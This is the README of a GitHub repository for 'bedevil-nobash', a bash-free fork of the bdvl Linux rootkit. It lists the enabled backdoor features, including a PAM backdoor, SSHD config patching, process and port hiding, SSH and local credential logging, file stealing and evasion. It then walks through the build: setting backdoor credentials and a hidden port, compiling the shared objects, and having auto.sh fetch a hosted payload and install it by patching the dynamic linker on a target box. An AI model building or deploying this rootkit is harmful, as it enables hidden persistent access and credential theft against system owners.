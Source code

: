 # bedevil-nobash

<img src=https://i.imgur.com/PyO00vy.png alt="icon" />

</br>

 * This is the same as the original [bdvl](https://github.com/kcaaj/bdvl) but however this version is not dependent on bash at all for setup or installation.
   * __At all.__
   * So naturally this repository is much different from the original.
   * This repository was created with _only_ the use of `auto.sh` in mind.
 * I'll detail information specific to this branch in this README, but for all other information such as stuff on certain functionalities please go check the original version out.

## Overview
 * This version of bdvl has the following functionalities enabled (_and are not that easily disabled_)
   * USE_PAM_BD
   * PATCH_SSHD_CONFIG
   * HIDE_SELF
   * FORGE_MAPS
   * HIDE_PORTS
   * DO_REINSTALL
   * DO_EVASIONS
   * READ_GID_FROM_FILE
     * AUTO_GID_CHANGER
     * HIDE_MY_ASS
   * BACKDOOR_UTIL
     * SET_MAGIC_ENV_UNHIDE
     * BACKDOOR_PKGMAN
   * LOG_LOCAL_AUTH
   * LOG_SSH
   * FILE_STEAL
   * USE_CRYPT
 * The dynamic linker libraries are patched at installation. This version of the rootkit is not designed to do anything otherwise, really.

<hr>

## Usage
 * This repository is extremely simple in comparison to the original.
 * Getting an installation up & running is a matter of editing your backdoor settings in `setup.py` & just few brief commands.
```
$ make
rm -rf new_inc
python setup.py
Username: changeme
Password: changeme
Hidden port: 13337
Install directory: /etc/hostslpxdf
        sh etc/ssh.sh changeme <host> 13337
cc -std=gnu99 -Wall -Inew_inc -g0 -O0 -shared -Wl,-soname,bdvl.so.x86_64 -fPIC new_inc/bedevil.c -lc -ldl -lcrypt -lpcap -o bdvl.so.x86_64
cc -m32 -std=gnu99 -Wall -Inew_inc -g0 -O0 -shared -Wl,-soname,bdvl.so.i686 -fPIC new_inc/bedevil.c -lc -ldl -lcrypt -lpcap -o bdvl.so.i686 2>/dev/null
make: [Makefile:17: kit] Error 1 (ignored)
strip bdvl.so*
```
 * When it comes to the actual installation, you have two choices.
 * Host the `new_inc.b64` file somewhere accessible from the target box & point the first variable in `auto.sh` to wherever `new_inc.b64` may be.
 * Or, on the box, when running `auto.sh` supply it a path as an argument to this file available locally.
 * `auto.sh` will do the rest of the work for when it comes to installation on the box.
